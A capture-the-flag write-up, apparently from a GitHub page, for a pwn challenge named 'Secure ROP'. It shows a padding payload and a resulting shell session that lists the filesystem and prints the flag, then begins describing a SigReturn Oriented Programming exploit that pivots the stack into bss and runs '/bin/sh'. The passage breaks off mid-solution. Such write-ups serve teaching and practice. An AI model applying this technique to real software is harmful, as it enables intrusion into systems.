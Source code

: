 ```sh
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a\x10@$ ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat /home/*/flag.txt
rooters{L0l_W3lc0m3_70_7h3_0f_Pwn1ng}ctf
$
```

# Secure ROP

### **Challenge**

* **Category:** pwn
* **Points:** 462
* **Solves:** 32

>Secure ROP anyone?
>
>nc 146.148.108.204 4444
>
>Author: codacker

### **Solution**

Just a simple SROP (SigReturn Oriented Programming) challenge. I did two `rt_sigreturn` syscalls to solve it.

1. The first one moved the `rsp` and `rbp` into the bss segment to emulate a "stack" there. I then made a `read` syscall to read the string '/bin/sh\x00' plus some addresses to jump to after the `read`. Since the stack is being emulated in the bss segment, any `ret` instruction will just check the value at `rsp` to find where to jump to. I use this to jump to a `pop rax; syscall` after the `read` syscall.

